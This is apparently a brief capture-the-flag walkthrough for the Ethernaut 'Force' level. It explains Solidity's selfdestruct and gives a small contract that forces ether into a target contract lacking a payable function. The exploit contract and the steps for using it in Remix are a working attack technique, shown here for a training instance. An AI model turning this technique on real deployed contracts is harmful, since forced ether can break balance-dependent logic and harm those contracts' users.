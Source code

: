 # Force

Didn't really know what *selfdestruct* was until I read the walkthrough.

*selfdesctruct(<payable> _address)* makes the contract go boom and sends all the ether to the *_address*. This can be used in forcing ether into other contracts and in this case what we want.

```solidity
contract contractGoBoom {

  function boom() public {
    address force_addr = (0x665c949f4db87E95dbCE9DEf58C747D343dc4867);
    selfdestruct(payable(force_addr));
  }

  function collect() public payable returns(uint) {
    return address(this).balance;
  }
}
```

Using Remix IDE we give ether to the contract using *collect* then make it selfdestruct with the instance address as our target. 